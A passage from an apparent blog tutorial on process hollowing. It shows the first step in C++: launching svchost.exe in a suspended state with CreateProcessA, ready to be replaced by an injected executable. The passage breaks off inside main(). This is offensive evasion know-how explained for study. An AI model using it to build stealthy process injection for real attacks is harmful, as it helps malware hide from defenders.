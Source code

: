 ![Process Hollowing](assets/img/posts/20240124/ProcessHollowSchema.png)

## Start a suspended process

The first step is pretty straightforward. It is to create a process in a suspended state. The process needs to have the same architecture as the PE that we want to inject.(x64 PE on x64 process, x86 PE on x86 process, etc.). For the blog post the executable that will be used as the legitimate process will be `svchost.exe`.  
To create the process, the WinAPI function `CreateProcessA` will be used. A little function, which will juste take as arguments, our process name that we want to execute and a pointer to a process information struct which will be initialiazed by the function `CreateProcessA`, will be created. The process information structure `pi` is used to retrieve the process handle and the main thread handle.

{% highlight C++ %}
BOOL launchSuspendedProcess(LPCSTR processName, LPPROCESS_INFORMATION pi)
{
    // init an empty STARTUP INFO structure required by the function CreateProcessA 
    STARTUPINFOA si = { 0 };

    if (!CreateProcessA(processName, NULL, NULL, NULL, TRUE, CREATE_SUSPENDED, NULL, NULL, &si, pi))
    {
        _err("[-] ERROR: Cannot create process %s", processName);
        return FALSE;
    }
    _dbg("[+] Launching process %s with PID: %d\r\n", processName, pi->dwProcessId);
    return TRUE;
}

int main()
{
    PROCESS_INFORMATION pi = { 0 };
    LPCSTR target = "C:\\Windows\\System32\\svchost.exe";
    if(!launchSuspendedProcess(target, &pi))
        return -1;